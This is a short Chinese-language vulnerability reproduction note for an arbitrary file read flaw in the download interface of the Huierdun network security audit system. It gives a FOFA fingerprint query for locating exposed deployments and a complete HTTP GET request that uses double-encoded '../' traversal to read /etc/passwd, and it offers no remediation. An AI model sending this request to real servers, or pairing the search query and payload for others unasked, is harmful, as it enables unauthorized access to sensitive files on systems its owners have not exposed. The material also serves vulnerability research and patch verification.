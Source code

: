 # 惠尔顿安全审计系统download任意文件读取漏洞

# 一、漏洞简介
对于军民融合政策的诸多中小企业来讲，大部分人员主要时间都时在非涉密区工作，并需要用到网络， 所以上网时不小心泄密成了一个可能泄密的高概率事件。 惠尔顿 通过 三员化管理、实名认证上网、网页记录、 邮件审查、文件上传下载、即时通讯、防私接、统计报表 等八大方面确保上网不泄密。惠尔顿网络安全审计系统download接口处存在任意文件读取漏洞，恶意攻击者可能会利用此漏洞获取服务器敏感信息，从而造成信息泄露。

# 二、影响版本
+ 惠尔顿安全审计系统

# 三、资产测绘
+ fofa`app="惠尔顿-网络安全审计系统"`
+ 特征

![1708966359810-2fd7ba60-d5c3-42c3-9dcd-43cffca13a4a.png](./img/Ed_k3Vej_OmbWTmK/1708966359810-2fd7ba60-d5c3-42c3-9dcd-43cffca13a4a-045633.png)

# 四、漏洞复现
```plain
GET /download/..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1708966387262-824b2693-8e0c-4b28-8490-9108265f6ba3.png](./img/Ed_k3Vej_OmbWTmK/1708966387262-824b2693-8e0c-4b28-8490-9108265f6ba3-592859.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hbrwp07p75ysgyvt>